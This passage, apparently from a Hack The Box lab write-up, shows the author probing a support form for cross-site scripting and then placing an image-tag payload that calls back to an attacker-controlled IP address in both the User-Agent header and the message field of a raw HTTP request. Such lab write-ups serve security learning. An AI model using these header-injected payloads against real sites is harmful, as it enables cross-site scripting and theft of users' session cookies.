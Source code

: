 ![Hacking Detected](/assets/images/2024/06/Headless/HackingDetected.png "Hacking Detected")

My attempts were blocked. But it also displayed my request headers back to me. I tried sending my malicious payload in a header.

```http
POST /support HTTP/1.1
Host: target.htb:5000
User-Agent: <img src="http://10.10.14.121/agent" />
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 106
Origin: http://target.htb:5000
Connection: keep-alive
Referer: http://target.htb:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1

fname=first&lname=last&email=test%40test.com&phone=phone&message=<img src="http://10.10.14.121/message" />
```
